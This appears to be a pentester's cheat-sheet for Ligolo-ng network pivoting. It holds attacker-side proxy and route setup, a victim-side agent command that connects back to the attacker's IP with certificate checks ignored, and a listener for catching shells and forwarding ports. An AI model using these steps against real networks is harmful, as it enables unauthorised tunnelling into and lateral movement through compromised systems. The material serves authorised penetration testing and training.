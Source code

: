 #Ligolio-ng

https://github.com/nicocha30/ligolo-ng/releases/tag/v0.4.4

## Setup
Attack Machine:
sudo ip tuntap add user kali mode tun ligolo ; sudo ip link set ligolo up && ./proxy -selfcert -laddr 0.0.0.0:443
sudo ip route add 192.168.110.0/24 dev ligolo

Victim Host:
./agent -connect {{IP}}:443 -ignore-cert

start

## Catching shells, services, ports etc.
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
